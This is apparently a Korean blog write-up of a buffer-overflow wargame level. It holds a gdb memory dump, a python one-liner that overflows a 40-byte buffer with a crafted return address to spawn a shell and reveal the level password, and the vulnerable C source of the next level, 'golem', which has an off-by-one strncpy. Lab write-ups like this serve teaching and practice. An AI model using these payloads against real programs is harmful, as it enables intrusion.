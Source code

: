 ```
x/10000s 0xbffff000
0xbffff66f:	 "@�D\001@/tmp/dirgolem/", '\220' <repeats 18 times>, "\234\205\004\b", '\220' <repeats 16 times>
```

진짜 삽질로 파악하게 되었다...
쉘 코드는 0xbffff66f 부터 시작되게 되는데 넉넉하게 0xbffff68f를 주고 실행하였다.

```
rm -rf test
ln -sf ~/golem test
./test `python -c 'print "A"*44+"\x8f\xf6\xff\xbf"'`
bash$ my-pass
euid = 511
cup of coffee
```
4일동안 개삽질했다... 저 쉘코드가 시작되는 주소를 못찾아서 ㅠㅜ

# 지금부터는 write-up을 참조하여, 빨리 문제를 풀도록 하겠다 ㅠㅜ


## golem

### 1. source code
```
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```
개인적으로 소스를 분석 했을 때 buffer의 메모리 크기는 40이고, strncpy의 최대 길이는 41이다.. 무엇인가.. 여기가 취약점인 것 같다... 좀더 자세히 살펴보자

해당 문제는 FPO(Frame Pointer Overwriting)를 이용해야 한다.


### 2. gdb
